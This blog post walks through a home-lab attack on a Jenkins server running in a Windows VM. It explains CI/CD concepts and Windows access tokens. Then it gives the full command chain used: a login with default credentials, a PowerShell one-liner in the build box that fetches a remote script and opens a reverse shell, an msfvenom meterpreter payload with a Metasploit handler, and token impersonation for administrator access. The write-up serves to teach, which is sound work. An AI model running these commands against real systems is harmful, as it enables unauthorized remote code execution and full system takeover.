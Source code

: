 ```yaml
---
title: "jenkins"
date: 2022-01-08T14:37:40-05:00
draft: false
---
```


if you've worked in any sort of SaaS/tech company, odds are you've used a CI/CD (continuous integration/continuous delivery and deployment) and DevOps tool. CI/CD is a method used to deliver apps to customers and clients by introducing automation into the stages of app development. it allows orgs to ship software "quickly" and "efficiently" (i used scare quotes because...well, if you've worked in a software company you'll know why). i'm going to see if i can try to exploit a common security misconfiguration on one of these tools, jenkins, then try to escalate privilege to get full system access.


## the difference between CI and CD

**CI**: involves devs making small changes and checks to their code. the scale of these changes can be huge so the process is automated to ensure that teams can build, test, and package their apps in a reliable way. CI can also help to streamline code changes.

**CD (continuous delivery)**: this is the automated delivery of completed code to environments like testing and development. 

**CD (continuous deployment)**: every change that passes the automated tests is automatically placed in production, resulting in many production deployments. this is the ultimate goal of many companies, given they're not constrained by regulatory or compliance requirements. 

![cicd](/CICD-DevOps.png)


## jenkins

jenkins is an open-source CI/CD automation software, written in java. it's used to implement CI/CD workflows, called pipelines. 

pipelines automate testing and reporting on isolated changes in a larger code base (in real time) and facilitates integration of disparate branches of code into a main branch. pipelines also rapidly detect defects in a code base, build the software, automate testing of builds, prepare code base for deployment/delivery, and ultimately deploy code to containers and virtual machines (as well as bare metal and cloud servers). 


for this experiment, i've spun up a windows VM that hosts the jenkins instance, and try to attack it from my kali VM. 

once everything is set up, let's start with a simple nmap scan of the target machine.

```
nmap -sT -Pn -v 10.10.77.68
```

![nmap](/jenkins-nmap.png)

the service at port 8080 is the jenkins server. to visit it, simply enter http://10.10.77.68:8080. at the login page, i'll enter my credentials (admin:admin) [note: default credentials for jenkins are usually admin:password or admin:admin] and be taken to the jenkins dashboard. there you'll see a "project" that was created just for this experiment.

![dashboard](/jenkins-dashboard.png)


since this is a windows application, i'll use the [nishang](https://github.com/samratashok/nishang) repo for a script, more specifically [this](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) reverse shell script. nishang also contains a whole bunch of scripts for initial access, enumeration, and privesc so check them all out if you'd like. 

in kali, i created a directory to download the script to.

```
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
```

now let's create a simple web server so that this script can be downloaded into jenkins.

```
python -m SimpleHTTPServer 80
```


back in jenkins, if you click "project" > configure > build, you'll see a command box that lets you execute any command. 

![build](/jenkins-build.png)

first, start a netcat listener in kali.

```
nc -lvnp 9001
```

in the jenkins command box, enter the following command to download the powershell script to the target. remember to use the address of the HTTP server that was created.

```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.9.4.75:80/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.9.4.75 -Port 9001
```

save the build, then click "build now" from the project page. the netcat listener will receive a connection to the target.

![netcat](/jenkins-netcat.png)


to make privesc easier, it's better to switch to a meterpreter shell.

first, create an msfvenom payload in the same directory we saved the powershell script to.

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.9.4.75 LPORT=9002 -f exe -o jenkins.exe
```

download it to the machine similar to how we did it before, via the HTTP server and the build command box.

```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.9.4.75:8000/jenkins.exe','jenkins.exe')"
```

save this build, but before building, let's create a handler in metasploit to receive the connection.

```
> use exploit/multi/handler
> set PAYLOAD windows/meterpreter/reverse_tcp
> set LHOST 10.9.4.75
> set LPORT 9002
> run
```

back in jenkins, once you build and the payload has been downloaded to target, in the msfconsole shell type the following to get the meterpreter shell.

```
> Start-Process "jenkins.exe"
```


## token impersonation to gain system access

windows uses tokens to ensure accounts have the right privileges to carry out certain actions. tokens are assigned to an account when users log in or when they're authenticated. this is usually done by ```LSASS.exe```, generates the process responsible for authenticating users for the WINLOGON service. this is performed by using authentication packages like ```msgina.dll```. 

once authentication is successful, LSASS generates the user's access token, which is used to launch the initial shell. other processes the user initiates then inherit this token.

the user's access token consists of: user SIDs, group SIDs, privileges. you can read more about access tokens [here](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens).

there are 2 types of access tokens:
1. primary access tokens: associated with a user account, generated on log on
2. impersonation tokens: allow a particular process to use the token of another

the different levels of impersonation tokens:
- **SecurityAnonymous**: current user/client cannot impersonate another user/client
- **SecurityIdentification**: current user/client can get the identity and privileges of a client, but cannot impersonate the client
- **SecurityImpersonation**: current user/client can impersonate the client's security context on the local system
- **SecurityDelegation**: current user/client can impersonate the client's security context on a remote system

security context refers to the data structure that contain users' relevant security information.

privileges of an account allow the user to carry out particular actions. 
the most commonly abused privileges are:
- SeImpersonatePrivilege
- SeAssignPrimaryPrivilege
- SeTcbPrivilege
- SeBackupPrivilege
- SeRestorePrivilege
- SeCreateTokenPrivilege
- SeLoadDriverPrivilege
- SeTakeOwnershipPrivilege
- SeDebugPrivilege

you can read more about them [here](https://www.exploit-db.com/papers/42556).


back in the meterpreter shell, we can check privs easily.

```
> whoami /priv
```

2 privileges should show up: SeDebugPrivilege and SeImpersonatePrivilege. let's use incognito mode to exploit this.

```
> load incognito
```

to check which tokens are available to us:
```
> list_tokens -g
```

the token **BUILTIN\Administrators** is available. impersonating it should be easy.

```
> impersonate_token "BUILTIN\Administrators"
```

it's good practice to double check privileges. 

```
> getuid
```

although we now have a higher privilege token, we may not actually have higher privilege permissions. windows uses a primary token of the process and not the impersonated token to determine what the process can do. so, we just migrate to a process with correct permissions. the safest process to pick is usually ```services.exe```.

```
> ps
> migrate <PID>
```

we've now migrated to an elevated process using its process ID (PID).


so, there it is. we exploited jenkins to further exploit security misconfigurations to get root access on the target system. pretty cool!











